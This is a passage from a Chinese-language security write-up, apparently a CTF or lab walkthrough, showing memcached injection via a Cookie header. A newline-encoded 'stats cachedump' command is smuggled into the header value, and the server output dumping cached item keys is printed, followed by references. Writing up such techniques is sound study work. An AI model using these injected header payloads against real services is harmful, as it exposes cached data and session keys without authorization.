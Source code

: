 `Cookie: %0astats cachedump 1 1000`

返回为

`MemcacheError:ERROR ITEM key [1 b; 1441762228 s] ITEM 12345 [20 b; 1441494967 s] END`

当我遍历到class 3的时候：

```
Cookie: %0astats cachedump 3 1000    
MemcacheError:ERROR 
ITEM 3f063d8659f0f08c4454554294aca59bbe42cc6e11db23eb69f5a1c0a9486aa1 [19 b; 1442016274 s] 
ITEM 0e9d0aecea498b15ee63d38dd4664dcfc75be0846ec4baee931b45a04462eeab [20 b; 1441494967 s] 
ITEM 09cf27be606344f29bda74bd7c035e6d862c95025a2a6bb1785c8883ae65b18a [16 b; 1441494967 s] 
ITEM b33542ed3c8bf5c2c346e26aac28a10055fa6a50c4948873810798e9f4cfca98 [20 b; 1441494967 s] 
ITEM e391306f6481940ab3c796eb1253435b06e9a9357227de734b0ec3f58bd14d7f [19 b; 1442011213 s] 
ITEM c706b288065ad5c29153d8773c3e3be6e8a07408cdf4e0e40e97917896e43839 [19 b; 1442012877 s] 
ITEM a5e754e6e804bf7e49f8096242a6566cc337b06aa6c2dafda3f86edccf8cb4b3 [19 b; 1442011191 s] 
ITEM edf938c33d05ff9f8696415d5ef817014a5cc2906abe24576fdafe8ae58dde48 [19 b; 1442010879 s] 
ITEM 5f7d07e310e9fad574d0975741a9c05d0d75d7157ce9bb9546b7f58d940cee7a [19 b; 1442006048 s] 
ITEM 3d1a32800a501fe7387287ba4631ae9318206ef96083a29f35fd1ef42f7a85c5 [19 b; 1441998916 s] 

```

终于注入到我们所需要的class中去。

0x05 参考
=====

**Memcache cheat sheet**:[http://lzone.de/cheat-sheet/memcached](http://lzone.de/cheat-sheet/memcached)

**Memcached Injection**:[https://www.blackhat.com/docs/us-14/materials/us-14-Novikov-The-New-Page-Of-Injections-Book-Memcached-Injections-WP.pdf](https://www.blackhat.com/docs/us-14/materials/us-14-Novikov-The-New-Page-Of-Injections-Book-Memcached-Injections-WP.pdf)